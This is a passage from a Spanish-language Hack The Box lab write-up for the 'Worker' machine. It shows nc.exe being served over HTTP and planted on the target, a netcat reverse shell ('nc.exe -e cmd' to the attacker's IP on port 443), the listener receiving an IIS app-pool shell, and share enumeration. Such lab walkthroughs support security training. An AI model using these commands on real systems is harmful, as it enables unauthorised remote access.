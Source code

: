 ```bash
➜  content cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
➜  content python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

- Ahora simplemente hacemos una petición con `curl` para descargamos el nc.exe y ponerlo en esa ruta del sistema.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/worker/18.png">
</p>

- Ahora ya nos enviamos la `reverse shell`.

```bash
C:\Windows\Temp\nc.exe -e cmd tuip 443
```

- Nos llega la `shell`.

```bash
➜  content rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.10.203] 50333
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>
```

## Shell as robisl

- Aquí vemos unidades logicas.

```bash
c:\windows\system32\inetsrv>net share
net share

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
W$           W:\                             Default share
ADMIN$       C:\Windows                      Remote Admin
The command completed successfully.
```
